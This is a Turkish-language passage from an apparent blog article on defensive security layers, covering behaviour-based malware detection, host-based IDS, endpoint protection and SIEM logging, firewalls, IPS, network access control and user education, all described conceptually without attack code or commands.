Davranış tabanlı(**behavior-based**) tespit tamamlayıcı bir yaklaşımdır. Davranış tabanlı tespit, zararlı yazılımın ne olduğunu ele almak yerine, zararlı yazılımın ne yapmaya çalıştığına bakar. Başka bir deyişle, riskli bir eyleme kalkışan her şey şüphe altında kalacaktır. Bu yaklaşım imza tabanlı tespitin sınırlamalarının üstesinden gelir ve yeni zararlı yazılımları imza olmadan, sadece davranışlarından yola çıkarak bulabilir. Ancak bu yaklaşım pratikte zor olabilir. İlk olarak, şüpheli davranışın ne olduğunu ya da tersine normal davranışın ne olduğunu tanımlamamız gerekir. Bu tanım genellikle güvenlik uzmanları tarafından geliştirilen sezgisel kurallara dayanır, çünkü normal davranışı kesin olarak tanımlamak zordur. İkinci olarak, şüpheli davranışı ayırt etmek mümkün olabilir, ancak kötü niyetli davranışı belirlemek çok daha zordur, çünkü kötü niyetin çıkarılması gerekir. Davranış tabanlı tespit şüpheli davranışları işaretlediğinde, tehdit riskini daha iyi anlamak için genellikle daha fazla takip araştırması gerekir.

Zararlı yazılımların görünümlerini değiştirme veya gizleme yeteneği, dosya taramasını yenebilir. Ancak, biçimi ne olursa olsun, zararlı yazılım nihayetinde görevini yerine getirmelidir. Bu nedenle, zararlı yazılıma çalışma şansı verilirse davranışından tespit etme fırsatı her zaman ortaya çıkacaktır. Antivirüs yazılımı, bilgisayar için tehdit oluşturabilecek eylemleri aramak için sabit disk erişimi gibi sistem olaylarını izleyecektir. Olaylar, işletim sistemi işlevlerine yapılan çağrıları yakalayarak izlenir.

Sistem olaylarını izlemek dosya taramanın ötesinde bir adım olsa da, zararlı programlar bilgisayar yürütme ortamında çalışır ve bilgisayar için risk oluşturabilir. Emülasyon fikri, şüpheli kodu izole bir ortamda çalıştırmak, bilgisayar kaynaklarının görünümünü koda sunmak ve zararlı yazılımın belirtisi olan eylemleri aramaktır.

Sanallaştırma, emülasyonu bir adım öteye taşır ve şüpheli kodu gerçek bir işletim sistemi içinde yürütür. Bir dizi sanal işletim sistemi ana bilgisayar işletim sisteminin üzerinde çalışabilir. Zararlı yazılımlar sanal bir işletim sistemini bozabilir, ancak güvenlik nedenleriyle sanal bir işletim sisteminin bilgisayar işletim sistemine sınırlı erişimi vardır. Bir "**sandbox**", belirli bir eylem talep edilmediği ve izin verilmediği sürece sanal ortamı bilgisayar ortamına müdahaleden izole eder. Buna karşılık, emülasyon şüpheli koda bir işletim sistemi sunmaz; kodun adım adım çalışmasına izin verilir, ancak kontrollü ve kısıtlı bir şekilde, sadece ne yapmaya çalışacağını keşfetmek için.

Casus yazılım önleme yazılımı, antivirüs yazılımının özel bir sınıfı olarak görülebilir. Geleneksel virüslerden biraz farklı olarak, casus yazılımlar sabit disk ve sistem dosyalarında çok sayıda değişiklik yapma konusunda özellikle zararlı olabilir. Virüs bulaşmış sistemler, muhtemelen belirli çerezler (Web siteleri tarafından hafızada tutmak amacıyla tarayıcıya yerleştirilen metin parçaları) de dahil olmak üzere çok sayıda yüklü casus yazılım programına sahip olma eğilimindedir.

Bilgisayar tabanlı IDS bir bilgisayarda çalışır ve şüpheli davranış belirtileri için sistem etkinliklerini izler. Örnekler, sistem Kayıt Defteri'ndeki değişiklikler, tekrarlanan başarısız oturum açma girişimleri veya bir arka kapının yüklenmesi olabilir. Ana bilgisayar tabanlı IDS'ler genellikle sistem nesnelerini, süreçleri ve bellek bölgelerini izler. Her sistem nesnesi için, IDS genellikle değişiklikleri tanımak için izinler, boyut, değişiklik tarihleri ve karma içerikler gibi öznitelikleri takip eder.

Bilgisayar tabanlı bir IDS için bir endişe, bir saldırgan tarafından olası kurcalamadır. Bir saldırgan bir sistemin kontrolünü ele geçirirse, IDS'ye güvenilemez. Bu nedenle, IDS'nin kurcalanmaya karşı özel koruması bir bilgisayarda tasarlanmalıdır.

Bilgisayar tabanlı bir IDS tek başına tam bir çözüm değildir. Bilgisayarı izlemek mantıklı olsa da, üç önemli dezavantajı vardır: görünürlük tek bir bilgisayarla sınırlıdır; IDS süreci kaynakları tüketir, muhtemelen bilgisayardaki performansı etkiler; ve saldırılar bilgisayara ulaşana kadar görülmeyecektir. Bilgisayar tabanlı ve ağ tabanlı IDS genellikle güçlü yönleri birleştirmek için birlikte kullanılır.

Uç nokta güvenliği katmanında sahip olduğumuz bilgisayar sistemlerini izleriz. Bu sistemler temel olarak ikiye ayrılır: Windows tabanlı sistemler, Unix/Linux tabanlı sistemler. Bu iki sistemede yapılacak saldırının amacı aynı olmasına rağmen yöntemleri farklıdır. Peki bu katmanda saldırganın amacı nedir? ve biz ne yapacağız?  
Saldırganın ilk erişimi sağladıktan sonra erişim sağladığı sisteme yönelik iki temel amacı vardır:

* Erişim sağladığı sistemde **kalıcılık sağlama**( [Persistence](https://attack.mitre.org/tactics/TA0003)-Mitre). Yani bağlantının sonlandığı veya sistemin kapandığı durumda bile yeniden sıfıncı-gün zafiyetini istismar etmekle uğraşmadan sisteme erişim sağlayabilmek. Bunu sağlamak için Windows ve Linux/Unix sistemlerde farklı pek çok teknik bulunmaktadır.
* Erişim sağladığı sistemde **yetki yükseltme**([Privilege Escalation](https://attack.mitre.org/tactics/TA0004)-Mitre). Yani eriştiği sistemde üst seviye yetki kullanabilme. Bu windows sistemlerde **administrator** kullanıcısının yetkileri, Unix/Linux sistemlerde ise **root** kullanıcısının yetkileridir**.**

Windows tabanlı sistemlerde kalıcılık sağlama metotları için ilgili [yazıma](https://medium.com/@yusufarbc/windows-kal%C4%B1c%C4%B1l%C4%B1k-sa%C4%9Flama-persistence-metotlar%C4%B1-b5fb4ac481c5) göz atabilirsiniz.



Endpoint Protection

Peki saldırgan bunları yaparken biz ne yapacağız? Öncelikle, bir önceki katmana göre bu katmanda biz daha avantajlıyız. Çünkü, saldırganların sistemlerde kalıcılık sağlamak ve yetki yükseltmek için kullandığı teknikler büyük çoğunlukta bilinmektedir. Bu teknikleri tespit etmek ise zero-day istismarını tespit etmek kadar zor değildir.

Herşeyden önce, uç nokta güvenliğini sağlamak için çeşitli ürünlere ihtiyacımız vardır. Bunlar, en basit antivirüs sisteminden en gelişmiş XDR sistemine kadar çeşitllik gösterir. Kısaca adlarını vermem gerekirse:

* Antivirüs/Antimalware
* Antiphishing/Mail Security
* Malware Sandbox
* EPP(Endpoint Protection Platform)
* EDR(Endpoint Detection and Response)
* XDR( Extended Detection and Response)

Hepsinin ne işe yaradığına teker teker değinip uzatmayacağım. Bu sistemlerin ne olduğuna dair tonla yazı google'da mevcut. Ancak, genel olarak hepsi uç nokta güvenlik çözümleridir. Uç noktalar üzerindeki zararlı yazılımları tespit edip engellemeyi amaçlarlar. Şayet, saldırganın erişim sağladığı bir sistemde bişeyler yapmak için bir zararlı kod (payload) gönderip çalıştırması ve şüpheli bir bağlantı yapması elzemdir. Bu zararlı kod ve bağlantı bu ürünler ile tespit edilip engellendiğinde biz durumu 1–1 yaparız. Ancak en önemli nokta artık bişeylerin ters gittiğinden haberdar oluruz.

Bunun yanında, uygulamalarımızda yaptığımız gibi uç noktalarımızdan da log toplamamız gerekir. Temel olarak, Linux sistemlerde syslog ile windows sistemlerde eventlog ile SIEM sistemimize gerçek zamanlı log gönderimi yapılır. SIEM sistemimizdeki kurallar yetki yükseltme ve kalıcılık sağlama aktivitelerini tespit edip uyarı oluşturabilir. Bu uyarıyı gören güvenlik ekibimiz ise birşeylerin ters gittiğini anlayabilir.

İşletim sistemi her ne olursa olsun, saldırıya uğradığına inanılan bir uç noktayı analiz ederken cevaplanması gereken **3 önemli soru** vardır.

* 1. Sistemde aktif olarak bulunan bir zararlı yazılım(**malware**) var mı?
* 2. Şüpheli bir iç veya dış iletişim(**network connection**) var mı?
* 3. Herhangi bir kalıcılık(**persistence**) var mı?

Uç nokta üzerinde yukarıda bahsettiğim **önemli 3 şeye** yönelik detaylı bir inceleme saldırganın faaliyetini açığa çıkaracaktır. Bunun için çeşitli adli bilişim araçlarından yararlanılır. En bilinenleri, [**kape**](https://www.kroll.com/en/insights/publications/cyber/kroll-artifact-parser-extractor-kape) ve [**thor**](https://www.nextron-systems.com/thor/) araçlarıdır.

Tabi bu haberdar olma durumu bu ürünleri inceleyen uzmanların olduğu kurumlar için geçerlidir. Ne yazık ki, pek çok kurum bu tür uç nokta güvenliği ürünlerini satın alsa bile açıp bakmamaktadır. Her ne kadar güvenlik ürünleri zararlı yazılımları tespit edip otomatik olarak engellese de, saldırganın sisteme erişimini tamamen ortadan kaldırmayabilir. Bu durumda saldırgan güvenlik ürününü bypass etmek veya devredışı bırakmak için çeşitli yöntemler dener ve başarılı olursa bu katmanı da aşabilir.

### Katman 3: Ağ Koruması (Network Protection) - Labirent Kontrolü

Aktarım(Transport) katmanı protokolleri, yani İletim Kontrol Protokolü (TCP) ve Kullanıcı Datagram Protokolü (UDP), port numaraları aracılığıyla birbirleriyle iletişim kuran uygulamaları tanımlar. 1'den 1023'e kadar olan port numaraları iyi bilinir ve Internet Assigned Numbers Authority (IANA) tarafından root ayrıcalıklarıyla çalışan standartlaştırılmış hizmetlere atanır. Örneğin, Web sunucuları istemci istekleri için 80 numaralı TCP bağlantı noktasını dinler. 1024 ila 49151 arasındaki bağlantı noktası numaraları, sıradan kullanıcı ayrıcalıklarına sahip çeşitli uygulamalar tarafından kullanılır. 49151'in üzerindeki port numaraları uygulamalar tarafından dinamik olarak kullanılır.

```mermaid
C4Container
    title C4 Container - Tehdit Tespiti ve İzleme

    Person(person_attacker, Saldırgan, "Hedef uygulama ve servislere saldırır.")
    System_Boundary(b_corporate_network, "Kurumsal Ağ Sınırı") {
        System(sys_corporate_assets, Kurumsal Varlıklar, "Hassas verileri barındırır.")
    }

    System_Boundary(b_security_layer, "Güvenlik İzleme Katmanı") {
        Container(c_log_capture, "Log Toplama ve Ayrıştırma", "SIEM (QRadar, Splunk)", "Tüm sistem bileşenlerinden log toplar.")
        Container(c_packet_capture, "Paket Yakalama", "Wireshark / NDR", "Ağ trafiğini pasif olarak yakalar ve analiz eder.")
    }

    Rel(person_attacker, sys_corporate_assets, "Uygulama/Servislere Saldırır", "Sıfır gün istismarı, veri sızıntısı, yanal hareket")
    Rel_Back_Log(c_log_capture, sys_corporate_assets, "Etkinlik Loglarını Toplar", "Tüm geçersiz girişimler, yetkilendirme hataları")
    Rel_Back_Log(c_packet_capture, b_corporate_network, "Paketleri Pasif Analiz Eder", "İç trafiğin derin paket incelemesi")
```

*Wireshark ile ağ trafiği analizi — HTTP isteklerinin paket düzeyinde incelenmesi.*

Saldırganlar açık portları kullanabileceğinden, gereksiz portları kapatmak iyi bir uygulamadır,

özellikle de daha yüksek aralıkta olanlar. Örneğin, Sub7 Truva atının varsayılan olarak 27374 numaralı portu kullandığı bilinmektedir ve Netbus 12345 numaralı portu kullanmaktadır. Ancak portların kapatılması tek başına bir bilgisayarın güvenliğini garanti etmez. Bazı bilgisayarların HyperText Transfer Protocol (HTTP) için TCP port 80'i açık tutması gerekir, ancak saldırılar bu port üzerinden gerçekleştirilebilir.

Çoğu insan ağ güvenliğini düşündüğünde, güvenlik duvarları akla gelen ilk şeylerden biridir. Güvenlik duvarları, dahili bir ağı harici tehditlerden koruyan bir çevre güvenliği aracıdır. Bir güvenlik duvarı gelen ve giden trafiğe seçici olarak izin verir veya engeller. Güvenlik duvarları, özel bir ağın girişinde bulunan bağımsız ağ cihazları veya bilgisayarlarda çalışan kişisel güvenlik duvarı programları olabilir. Bir kuruluşun güvenlik duvarı iç topluluğu korur; kişisel bir güvenlik duvarı bireyin ihtiyaçlarına göre özelleştirilebilir.



Çeşitli ağ bölgelerini izole eden bir güvenlik duvarı.

Güvenlik duvarları, şekilde gösterildiği gibi çeşitli ağ bölgeleri, yani genel İnternet, özel intranetler ve silahsızlandırılmış bölge (DMZ — demilitarized zone) arasında ayrım ve izolasyon sağlayabilir. Yarı korumalı DMZ tipik olarak bir kuruluş tarafından sağlanan hizmetleri içerir. Genel sunucular genel İnternet'ten biraz korunmaya ihtiyaç duyar, bu nedenle genellikle bir güvenlik duvarının arkasında yer alırlar. Bu güvenlik duvarı tamamen kısıtlayıcı olamaz çünkü genel sunucuların dışarıdan erişilebilir olması gerekir.

Çeşitli güvenlik duvarı türleri vardır: paket filtreleyen güvenlik duvarları, durum bilgisi içeren güvenlik duvarları ve proxy güvenlik duvarları. Her durumda, bir güvenlik duvarının etkinliği kurallarının yapılandırılmasına bağlıdır. Düzgün yazılmış kurallar ağ protokolleri hakkında ayrıntılı bilgi gerektirir. Ne yazık ki, bazı güvenlik duvarları ihmal veya eğitim eksikliği nedeniyle yanlış yapılandırılmaktadır.

Paket filtreleyen güvenlik duvarları (**Packet-filtering firewalls**) paketleri her iki yönde de analiz eder ve bir dizi kurala göre geçişe izin verir veya reddeder. Kurallar genellikle bağlantı noktası numaralarını, protokolleri, IP adreslerini ve paket başlıklarının diğer niteliklerini inceler. Birden fazla paketi bir akış veya akımla ilişkilendirme girişimi yoktur. Güvenlik duvarı durum bilgisizdir, bir paketten diğerine dair hiçbir hafıza tutmaz.

Durum bilgisine sahip güvenlik duvarları (**Stateful firewalls**), aynı akışa veya bağlantıya ait paketleri tanıyarak ve bağlantı durumunu takip ederek paket filtreleyen güvenlik duvarlarının sınırlamasının üstesinden gelir. Ağ katmanında çalışırlar ve oturumların meşruiyetini tanırlar.

Proxy güvenlik duvarları (**Proxy firewalls**) uygulama katmanına kadar işlem yaptıkları için uygulama düzeyinde güvenlik duvarları olarak da adlandırılırlar. Belirli uygulamaları tanırlar ve istenmeyen bir protokolün standart olmayan bir bağlantı noktası kullanıp kullanmadığını veya bir uygulama katmanı protokolünün kötüye kullanılıp kullanılmadığını tespit edebilirler. Dahili ağdan genel internete proxy bağlantıları için birincil ağ geçitleri olarak hizmet vererek dahili bir ağı korurlar. Analizin doğası gereği ağ performansı üzerinde bir miktar etkiye sahip olabilirler.

Güvenlik duvarları genel bir savunma stratejisinin temel unsurlarıdır ancak sadece çevreyi korumaları gibi bir dezavantajları vardır. Eğer bir saldırganın çevreyi aşmak için bir yolu varsa işe yaramazlar. Ayrıca özel bir ağdan kaynaklanan içeriden gelen tehditlere karşı da işe yaramazlar.

İlk savunma hattınız iyi bir güvenlik duvarı ya da daha iyisi, birkaç güvenlik özelliğini bir arada etkili bir şekilde barındıran bir sistem olmalıdır. Secure Computing'den Secure Firewall (eski adıyla Sidewinder) mevcut en güçlü ve en güvenli güvenlik duvarı ürünlerinden biridir ve bu yazı itibariyle hiçbir zaman başarılı bir şekilde hacklenmemiştir. Devlet ve savunma kurumları tarafından güvenilmekte ve kullanılmaktadır. Secure Firewall, en gerekli beş güvenlik sistemini (güvenlik duvarı, antivirüs/casus yazılım/spam, sanal özel ağ (VPN), uygulama filtreleme ve saldırı önleme/tespit sistemleri) tek bir cihazda birleştirir.

Uygulama güvenlik duvarları (AF'ler) ile IPS'ler arasında karışıklık yaşanabilir. AF'ler, bir uygulamanın erişimini sınırlamak veya reddetmek için tasarlanmıştır. AF'ler, bir işletim sistemindeki açıklıkları kapatırken zararlı kodun yürütülmesini önler. AF'ler, uygulamalardan gelen veri akışının türünü analiz ederek belirli web sitelerinden veya içeriklerden gelen verileri engeller. Ayrıca, bir uygulamanın zayıf noktalarından yararlanma girişimlerini tespit eder. AF'ler, saldırıları önleme amacıyla proxy'ler kullanır ve geleneksel güvenlik duvarı işlevlerine odaklanır. AF'ler, tanınan tehditlerin imzalarını tespit ederek ağa bulaşmalarını engeller. Bazı işletim sistemleri, uygulama güvenlik duvarını yerleşik bir özellik olarak sunar. Örneğin, Windows'un Veri Yürütme Önleme (DEP) özelliği, zararlı kodun yürütülmesini engeller. MacOS sürüm 10.5.x ise uygulama güvenlik duvarını standart olarak sunar.

Her İnternet kullanıcısı spam e-postaya aşinadır. Spam'in tam bir tanımı üzerinde fikir birliği yoktur, ancak çoğu kişi spam'ın istenmeyen, toplu olarak gönderilen ve ticari nitelikte olduğu konusunda hemfikirdir. Ayrıca e-postaların büyük çoğunluğunun spam olduğu konusunda da fikir birliği vardır. Spam bir sorun olmaya devam etmektedir çünkü alıcıların küçük bir kısmı bu mesajlara yanıt vermektedir. Bu oran küçük olsa da, elde edilen gelir spam'i karlı hale getirmek için yeterlidir çünkü spam'i toplu olarak göndermenin maliyeti düşüktür. Özellikle büyük bir botnet hızlı bir şekilde muazzam miktarda spam üretebilir.

Yahoo! ve Hotmail gibi popüler Webmail hizmetlerinin kullanıcıları spam için cazip hedeflerdir çünkü adreslerinin tahmin edilmesi kolay olabilir. Buna ek olarak, spam gönderenler e-posta adreslerini çeşitli kaynaklardan toplarlar: Web siteleri, haber grupları, çevrimiçi dizinler, veri çalan virüsler vb. Spam gönderenler ayrıca müşteri bilgilerini satmak isteyen şirketlerden adres listeleri de satın alabilirler.

Spam, kullanıcılar için bir rahatsızlık ve ağ kaynaklarının israfından daha fazlasıdır. Spam, zararlı yazılımları dağıtmak ve zararlı Web sitelerine yönlendirmek için popüler bir araçtır. Kimlik avı saldırılarının ilk adımıdır.

Spam filtreleri kurumsal düzeyde ve kişisel düzeyde çalışır. Kurumsal düzeyde, e-posta ağ geçitleri gelen iletileri zararlı yazılımlara karşı tarayarak ve şüpheli veya sahte gönderenlerden gelen iletileri engelleyerek tüm bir kuruluşu koruyabilir. Kurumsal düzeydeki bir endişe, spam sanılan meşru mesajlar olan yanlış pozitiflerin oranıdır. Meşru postaları engellenen kullanıcılar üzülebilir. Neyse ki spam filtreleri genellikle özelleştirilebilir ve yanlış pozitiflerin oranı çok düşük hale getirilebilir. Kişisel düzeyde ek spam filtreleme, bireysel tercihleri hesaba katmak için filtrelemeyi daha da özelleştirebilir.

Savunmasız bir bilgisayar yalnızca kendisini değil tüm topluluğu riske atabilir. Öncelikle, savunmasız bir bilgisayar saldırıları üzerine çekebilir. Ele geçirilirse, ana bilgisayar diğer ana bilgisayarlara saldırı düzenlemek için kullanılabilir. Ele geçirilen bilgisayar saldırgana bilgi verebilir ya da bilgisayarlar arasında saldırgana yardımcı olabilecek güven ilişkileri olabilir. Her durumda, ağınızda zayıf korumalı bir bilgisayar olması istenmez.



Network Access Control

Ağ erişim kontrolünün (NAC) genel fikri, bilgisayar güçlü bir güvenlik duruşu kanıtı sağlayamadığı sürece bir ana bilgisayarın bir ağa erişimini kısıtlamaktır. NAC süreci Şekilde gösterildiği gibi bilgisayarı, ağı (genellikle yönlendiriciler veya anahtarlar ve sunucular) ve bir güvenlik politikasını içerir.

Bazı uygulamalarda, bir yazılım aracısı bilgisayarda çalışır, bilgisayarın güvenlik duruşu hakkında bilgi toplar ve bunu ağa kabul talebinin bir parçası olarak ağa bildirir. Ağ, bir kabul kararı vermek üzere ana bilgisayarın güvenlik duruşunu güvenlik politikasıyla karşılaştırmak için bir politika sunucusuna başvurur.

Kabul kararı, retten kısmi kabule veya tam kabule kadar herhangi bir şey olabilir. Reddetme güncel olmayan antivirüs yazılımı, yama gerektiren bir işletim sistemi veya güvenlik duvarı yanlış yapılandırması nedeniyle gerçekleşebilir. Reddedilme, karantinaya (izole bir ağa yönlendirme) veya zorunlu düzeltmeye yol açabilir

Alanınıza izinsiz girmek isteyen kişiler için mevcut araçlar etkileyici olsa da, onları dışarıda tutmanıza yardımcı olacak çok çeşitli araçlara da sahipsiniz. Ancak bir ağ güvenliği stratejisi uygulamadan önce, kaynaklarınızı kullanacak kişilerin özel ihtiyaçlarının farkında olmanız gerekir. Basit antispyware ve antispam araçları yeterli değildir. Günümüzün hızla değişen yazılım ortamında, güçlü güvenlik için sızma koruması, tehdit imzası tanıma, belirlenen tehditlere otonom tepki verme ve ihtiyaç duyulduğunda araçlarınızı yükseltme becerisi gerekir.  
Aşağıdaki tartışma cephaneliğinize eklemeyi düşünmeniz gereken daha yaygın araçlardan bazıları hakkında konuşmaktadır

İyi bir saldırı önleme sistemi (IPS), daha gelişmiş bir güvenlik duvarına göre bir adım ileri olup özerk politikalar oluşturma imkanı sağlar. IPS, uygulama düzeyindeki tehditlerin yanı sıra basit IP adresi veya bağlantı noktası düzeyindeki saldırılara nasıl yanıt verileceğine karar verir. IPS ürünleri, şüpheli paketleri otomatik olarak düşürebilir, bazı durumlarda ise onları bir "karantina" dosyasına yerleştirebilir. IPS, bir katman güvenlik duvarı olarak da düşünülebilir çünkü uygulama içeriğine ilişkin kararlar alır. Bir IPS'nin etkili olabilmesi için, gerçek bir tehdidi ayırt etme kabiliyeti yanında imzası olmayan bir imzayı (yanlış pozitif) de tespit edebilmesi önemlidir. Bir izinsiz giriş belirlendiğinde, sistemin hızlı bir şekilde yöneticiyi bilgilendirmesi ve uygun kaçınma önlemlerinin alınabilmesi gerekmektedir. Farklı IPS türleri bulunmaktadır.

* Network-based. Ağ tabanlı IPS'ler, kuruluşta şüpheli izinsiz giriş girişimi faaliyetini tespit eden bir dizi tıkanma noktası oluşturur. İhtiyaç duyulan yerlere yerleştirilen bu sistemler, bilinen saldırı imzaları için ağ trafiğini görünmez bir şekilde izler ve ardından engeller.
* Host-based. Bu sistemler kendi başlarına ağ üzerinde değil, sunucularda ve bireysel makinelerde bulunur. Uygulamalardan gelen etkinlikleri ve istekleri sessizce izler, doğası gereği yasaklanmış eylemleri ayıklarlar. Bu sistemler genellikle şifre çözme sonrası giriş girişimlerini tespit etmede çok başarılıdır.
* Content-based. Bu IPS'ler ağ paketlerini tarayarak bilinmeyen veya tanınmayan ya da doğası gereği açıkça tehdit edici olarak etiketlenmiş içeriğin imzalarını arar.
* Rate-based. Bu IPS'ler, örneğin şifre kırma ve kaba kuvvet sızma girişimleriyle ilgili gibi görünen faaliyetler gibi normal seviyelerin dışında kalan faaliyetleri arar.

İyi bir IPS ararken, en azından aşağıdakileri sağlayan bir IPS arayın:

* Uygulamalarınız, ana bilgisayar sistemleriniz ve bireysel ağ öğeleriniz için "tek kurşun saldırıları", Truva atları, solucanlar, botnetler ve ağınızda gizlice "arka kapılar" oluşturulması gibi güvenlik açığı tabanlı tehditlerin istismarına karşı güçlü koruma
* Web hizmetleri, posta, DNS, SQL ve IP üzerinden Ses (VoIP) hizmetleri gibi belirli uygulamalardaki güvenlik açıklarından yararlanan tehditlere karşı koruma.
* Casus yazılım, kimlik avı ve anonimleştiricilerin (kaynak bilgisayarın kimlik bilgilerini gizleyerek İnternet faaliyetlerinin gizlice gerçekleştirilmesini sağlayan araçlar) tespiti ve ortadan kaldırılması
* Brute-force ve DoS saldırılarına, uygulama taramasına ve flooding'e karşı koruma.
* Tehdit listelerini ve imzaları güncellemek için düzenli bir yöntem (tehdit istihbaratı)

Erişim kontrol sistemleri (ACS'ler), korumalı ağ kaynaklarına erişimi yöneten kurallara dayanır. Bu kurallar, kullanıcı kimlik doğrulaması için jetonlar veya biyometrik cihazlar gibi yöntemler kullanarak erişim taleplerini kontrol eder. Ayrıca, zaman veya grup ihtiyaçlarına bağlı olarak farklı ağ hizmetlerine erişimi kısıtlayabilirler. Bazı ACS ürünleri, güvenlik ilkesini tanımlayan kurallar olarak adlandırılan bir dizi erişim kontrol listesi (ACL) oluşturmanıza izin verir. Bu kurallar, belirli bir kullanıcı, saat, IP adresi veya oturum açma yapılan sistem gibi faktörlere dayanarak erişimi kısıtlayabilir. SafeWord gibi ACS örnekleri, iki faktörlü kimlik doğrulama kullanarak ağ erişimini güçlendirebilir. Bu sistem, kullanıcıların bilgilerini (örneğin, kişisel kimlik numarası veya PIN) ve sahip oldukları tek seferlik parolaları (OTP) kullanarak kimliklerini doğrular. ACS'ler, yöneticilerin özelleştirilmiş erişim kuralları ve kısıtlamaları tanımlayarak ağ kaynaklarına erişimi kontrol etmelerini sağlar. Bu sistemler, güvenlik ve bilgi güvenliği için önemli bir rol oynarlar.

Son trendler arasında birleşik saldırı önleme veya UTM sistemlerinin ortaya çıktığı belirtilmektedir. UTM sistemleri, birden fazla güvenlik teknolojisini tek bir platformda birleştirerek çok katmanlı bir yapı sunmaktadır. UTM ürünleri, antivirüs, VPN, güvenlik duvarı hizmetleri gibi çeşitli yeteneklere sahiptir ve saldırı önleme ve antispam gibi özellikleri de içerir. UTM sistemlerinin en büyük avantajlarından biri, kullanım ve yapılandırmanın kolaylığıdır ve hızla güncellenebilir olmasıdır. Sidewinder by Secure Computing, bu özelliklere sahip olan bir UTM sistemidir. Diğer UTM sistemleri arasında Symantec'in Enterprise Firewall ve Gateway Security Enterprise, Fortinet, LokTek'in AIRlok Firewall Appliance ve SonicWall'un NSA 240 UTM Cihazı bulunmaktadır. Bu sistemler esnek, hızlı güncellenebilir, yönetimi kolay ve çeşitli güvenlik özellikleri sunmaktadır.

En güvenli ağın, yani tehlikeye girme ihtimali en az olan ağın, dış dünyayla doğrudan bağlantısı olmayan ağ olduğunu söylemeye gerek yok. Ancak bu pek de pratik bir çözüm değildir, çünkü bir Web varlığına sahip olmanızın tek nedeni iş yapmaktır. Ve İnternet ticareti oyununda, en büyük endişeniz içeri giren koyunlar değil, onlarla birlikte içeri giren koyun gibi giyinmiş kurtlardır. Peki, ağınızı izinsiz girişlerden uzak tutmak ve aynı zamanda erişilebilir tutmak arasında nasıl kabul edilebilir bir denge kurarsınız?

Şirketinizin ağ yöneticisi olarak, ağ güvenliği ve kullanıcı ihtiyaçları arasında ince bir çizgide yürüyorsunuz. Hala erişime izin veren iyi bir savunma duruşuna sahip olmalısınız. Kullanıcılar ve müşteriler hem işletmenizin can damarı hem de en büyük potansiyel enfeksiyon kaynağı olabilir. Ayrıca, işletmeniz kullanıcıların erişimine izin vererek büyüyorsa, onlara izin vermekten başka seçeneğiniz yoktur. Bu en iyi ihtimalle muazzam derecede zor bir görev gibi görünüyor.

Heybetli ama sabit bir kale gibi, kurduğunuz her savunma önlemi eninde sonunda içeri girmek isteyen çok motive hırsız lejyonları tarafından tehlikeye atılacaktır. Bu bir hamle/karşı hamle oyunudur: Siz ayarlarsınız, onlar adapte olur. Bu nedenle, dış tehditler uyum sağladıkça hızlı ve etkili bir şekilde uyum sağlayabilen ve değişebilen savunmalarla başlamalısınız.

Her şeyden önce, çevre savunmanızın olabildiğince güçlü olduğundan emin olmanız gerekir ve bu da çevrenizde hızla gelişen tehditlere ayak uydurmanız anlamına gelir. Yalnızca güvenlik duvarı işlevlerini yerine getiren bir güvenlik duvarına güvenme günleri geride kaldı; günümüzün kırıcıları, uygulamalardaki zayıflıklardan yararlanarak güvenlik duvarını nasıl aşacaklarını buldular. Saldırılara ve izinsiz girişlere karşı sadece tepkisel olmak da çok iyi bir seçenek değildir; bu, yaklaşan yumruğu görüp yolundan çekilmek ya da engellemek yerine ne yapacağınıza karar vermeden önce birinin size vurmasını beklemek gibidir. En yeni teknolojilere yaklaşımınızda esnek olmanız, ağınızın savunma zırhının en son tehdidi karşılayabildiğinden emin olmak için savunmanızı sürekli olarak denetlemeniz gerekir. Birilerinin siz farkına varmadan bir şeyleri geçip gitmemesi için, keşfedildiğinde hızlı bir şekilde ele alınabilecek şüpheli faaliyetleri sürekli olarak izlemek için çok dinamik ve etkili bir politikanız olmalıdır. Bu gerçekleştiğinde artık çok geçtir.

Ayrıca bu, ağ yöneticileri için de çok önemli bir bileşendir: Kullanıcılarınızı eğitmek zorundasınız. Ağ güvenliği süreçlerinizi ve sistemlerinizi sıkılaştırma konusunda ne kadar iyi bir iş çıkarmış olursanız olun, yine de zırhınızdaki en zayıf halka olan kullanıcılarınızla uğraşmanız gerekir. Eğer bu süreçleri yönetmek o kadar zorsa ve kullanıcılar zorluklardan kaçınmak için bu süreçlerin etrafından dolanıyorsa ya da bu süreçler virüslü bir siteyi ziyaret eden bir kullanıcının bu virüsü ağınıza bulaştırmasına neden olacak kadar gevşek bir şekilde yapılandırılmışsa, kurşun geçirmez süreçlere sahip olmanız bir işe yaramaz. Kullanıcı sayısı arttıkça ağınızın güvenliğini sağlamanın zorluk derecesi de önemli ölçüde artar.

Kullanıcı eğitimi, mobil bilişim söz konusu olduğunda özellikle önem kazanmaktadır. Bir cihazın kaybedilmesi, meraklı gözlerin parolaları veya verileri görebileceği bir yerde (veya şekilde) kullanılması, veri için kablosuz sinyalleri koklamak üzere özel olarak tasarlanmış bilgisayar korsanlığı araçlarının farkında olunması ve güvenli olmayan ağlarda oturum açılması, kullanıcıların aşina olması gereken potansiyel sorun alanlarıdır.

Ağ güvenliği mühendisliğine geleneksel yaklaşım, altyapıyı izinsiz girişlerden korumak için önleyici tedbirler — güvenlik duvarları — inşa etmeye çalışmak olmuştur. Güvenlik duvarı bir filtre gibi davranarak şüpheli görünen her şeyi yakalar ve arkasındaki her şeyi mümkün olduğunca steril tutar. Bununla birlikte, güvenlik duvarları iyi olsalar da, genellikle ağ kaynaklarını kullanan tehlikeye atılmış uygulamaları tanımlama yolunda fazla bir şey yapmazlar. Ve sızma araçları alanında görülen evrim hızıyla, sadece saldırıları önlemek için tasarlanmış bir yaklaşım giderek daha az etkili olacaktır.

Günümüzün bilişim ortamı artık eskiden olduğu gibi ofisle sınırlı değil. Güvenlik duvarının içinde hala sabit sistemler olsa da, her zamankinden daha sofistike uzaktan ve mobil cihazlar iş gücüne giriyor. Bu mobil bilişim akını, ağın geleneksel sınırlarını gittikçe daha uzak noktalara genişletti ve ağ güvenliği gereksinimleri hakkında farklı bir düşünce tarzı gerektirdi.

